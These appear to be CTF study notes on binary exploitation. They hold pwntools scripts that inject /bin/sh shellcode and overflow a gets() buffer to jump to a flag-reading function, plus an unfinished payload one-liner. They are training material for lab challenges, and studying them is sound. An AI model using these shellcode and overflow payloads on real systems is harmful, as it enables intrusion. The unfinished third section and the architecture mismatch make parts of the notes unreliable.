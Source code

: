# Binary Exploitation

## Overflow 0
```
from pwn import *

p = process('/problems/handy-shellcode_3_1a2e95a810eefe4a5994631812c0b8af/vuln')

context.arch = 'amd64'
#context.level = 'debug'

shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'

p.write(shellcode)

p.interactive()

```

## Overflow 1

## Idea
We have a binary that is calling the vulnerable function `gets()`. Coincidentally it also contains a function to read the flag.txt
file. We can overwrite past the buffer and redirect the instruction pointer to call the flag() function. 

## Solution

```
from pwn import *

flag_addr = p32(0x080485e6)
p = process('/problems/overflow-1_0_48b13c56d349b367a4d45d7d1aa31780/vuln')
payload = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
payload += flag_addr

p.write(payload)
p.interactive()
```

Issue with first exploit is that because the exploit script is in the home directory it is
looking for the flag file in the home directory instead of the directory located in the challenge
folder. To fix issue
```  ln -s /problems/overflow-1_0_48b13c56d349b367a4d45d7d1aa31780/flag.txt ~/flag.txt ```

## Overflow 2 (Todo)

### Idea
1. Create the buffer
2. Overwrite the 32 bit register
3. Address of flag function
4. Overwrite the return address
5. First function
6. Second function

### Solution
```python -c 'from pwn import *; print "A"*176 + "B"*8 + p32(0x080485e6)'```

